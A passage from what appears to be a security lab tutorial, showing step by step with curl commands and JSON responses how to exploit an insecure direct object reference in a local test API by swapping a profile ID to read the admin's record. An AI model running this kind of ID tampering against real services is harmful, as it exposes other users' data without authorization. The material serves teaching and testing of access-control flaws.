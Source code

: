#### Step 2: Login and Capture Token

```bash
# Login to get authentication token
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "attacker",
    "password": "test123"
  }' > login_response.json

# Extract the token
TOKEN=$(cat login_response.json | jq -r '.token')
echo "Token: $TOKEN"
```

#### Step 3: Access Your Own Profile (Legitimate)

```bash
# This returns your profile (user ID might be 5, for example)
curl -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/user/profile/5
```

**Response:**
```json
{
  "success": true,
  "user": {
    "id": 5,
    "username": "attacker",
    "email": "attacker@test.com",
    "role": "user",
    "created_at": "2025-10-06T12:00:00.000Z"
  }
}
```

#### Step 4: Exploit IDOR - Access Admin Profile

```bash
# Change the ID to 1 (typically the admin)
curl -H "Authorization: Bearer $TOKEN" \
  http://localhost:3000/api/user/profile/1
```

**Response:**
```json
{
  "success": true,
  "user": {
    "id": 1,
    "username": "admin",
    "email": "admin@wcorp.com",
    "role": "admin",
    "created_at": "2025-01-01T00:00:00.000Z"
  }
}
```
